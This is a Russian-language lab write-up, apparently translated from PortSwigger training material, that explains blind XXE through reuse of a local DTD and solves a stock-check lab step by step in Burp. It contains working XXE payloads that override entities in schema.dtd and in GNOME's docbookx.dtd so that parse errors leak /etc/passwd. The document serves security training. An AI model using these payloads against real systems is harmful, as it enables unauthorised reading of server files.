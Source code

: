 Использование слепого XXE путем повторного использования локального DTD
Предыдущая техника отлично работает с внешним DTD, но она обычно не работает с внутренним DTD, который полностью указан в DOCTYPEэлементе. Это связано с тем, что техника подразумевает использование XML-параметрической сущности в определении другой параметрической сущности. Согласно спецификации XML, это разрешено во внешних DTD, но не во внутренних DTD. (Некоторые парсеры могут это допускать, но многие — нет.)

А как насчет слепых уязвимостей XXE, когда блокируются внеполосные взаимодействия? Вы не можете извлечь данные через внеполосное соединение, и вы не можете загрузить внешний DTD с удаленного сервера.

В этой ситуации все еще возможно вызвать сообщения об ошибках, содержащие конфиденциальные данные, из-за лазейки в спецификации языка XML. Если DTD документа использует гибрид внутренних и внешних деклараций DTD, то внутренний DTD может переопределять сущности, объявленные во внешнем DTD. Когда это происходит, ограничение на использование сущности параметра XML в определении другой сущности параметра ослабевает.

Это означает, что злоумышленник может использовать основанную на ошибках технику XXE из внутреннего DTD, при условии, что сущность параметра XML, которую он использует, переопределяет сущность, объявленную во внешнем DTD. Конечно, если внеполосные соединения заблокированы, то внешняя DTD не может быть загружена из удаленного местоположения. Вместо этого это должен быть внешний файл DTD, который является локальным для сервера приложений. По сути, атака заключается в вызове файла DTD, который случайно существует в локальной файловой системе, и повторном использовании его для переопределения существующей сущности таким образом, что это вызывает ошибку синтаксического анализа, содержащую конфиденциальные данные. Эта техника была впервые применена Арсением Шароглазовым и заняла 7-е место в наших 10 лучших методах веб-хакинга 2018 года .

Например, предположим, что в файловой системе сервера по адресу есть файл DTD /usr/local/app/schema.dtd, и этот файл DTD определяет сущность с именем custom_entity. Злоумышленник может вызвать сообщение об ошибке анализа XML, содержащее содержимое файла /etc/passwd, отправив гибридный DTD, например, следующий:

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
Данный DTD выполняет следующие шаги:

Определяет параметрическую сущность XML с именем local_dtd, содержащую содержимое внешнего файла DTD, существующего в файловой системе сервера.
Переопределяет параметр XML-сущности, называемый custom_entity, который уже определен во внешнем файле DTD. Сущность переопределяется как содержащая эксплойт XXE на основе ошибок , который уже был описан, для запуска сообщения об ошибке, содержащего содержимое файла /etc/passwd.
Использует local_dtdсущность, так что внешний DTD интерпретируется, включая переопределенное значение сущности custom_entity. Это приводит к желаемому сообщению об ошибке.
Поиск существующего файла DTD для повторного использования
Поскольку эта атака XXE подразумевает повторное использование существующего DTD в файловой системе сервера, ключевым требованием является поиск подходящего файла. Это на самом деле довольно просто. Поскольку приложение возвращает любые сообщения об ошибках, выдаваемые XML-анализатором, вы можете легко перечислить локальные файлы DTD, просто попытавшись загрузить их из внутреннего DTD.

Например, системы Linux, использующие среду рабочего стола GNOME, часто имеют файл DTD по адресу /usr/share/yelp/dtd/docbookx.dtd. Вы можете проверить, присутствует ли этот файл, отправив следующую полезную нагрузку XXE, которая вызовет ошибку, если файл отсутствует:

<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
После того, как вы протестировали список общих файлов DTD, чтобы найти файл, который присутствует, вам нужно получить копию файла и просмотреть ее, чтобы найти сущность, которую вы можете переопределить. Поскольку многие общие системы, которые включают файлы DTD, имеют открытый исходный код, вы обычно можете быстро получить копию файлов с помощью поиска в Интернете.

---

В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Для решения лабораторной работы вызовите сообщение об ошибке, содержащее содержимое файла /etc/passwd.

Вам необходимо будет сослаться на существующий файл DTD на сервере и переопределить сущность из него.

Подсказка:
Системы, использующие среду рабочего стола GNOME, часто имеют DTD, /usr/share/yelp/dtd/docbookx.dtdсодержащий сущность, называемуюISOamso.

---

1. Нас встречает список продуктов, переходим на любой из них:

![image](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

2. Внизу страницы есть кнопка "Проверить наличие на складе" включает Burp прокси и нажимаем:

![image](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

3. Заходим в Proxy -> HTTP History выбираем POST запрос к /product/stock и отправляем в Repeater: 

![image](https://github.com/user-attachments/assets/f2febc3e-4ab7-441e-8fb3-04990746f99f)

---

4. Вставьте следующее определение внешней сущности между декларацией XML и stockCheck элементом:
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>

![image](https://github.com/user-attachments/assets/87784678-071c-4e1f-a766-b4add7e516cd)

---

5. Получаем вывод /etc/passwd: ![image](https://github.com/user-attachments/assets/e6f9df34-6e44-46ea-81f9-16d3e6848ab3)
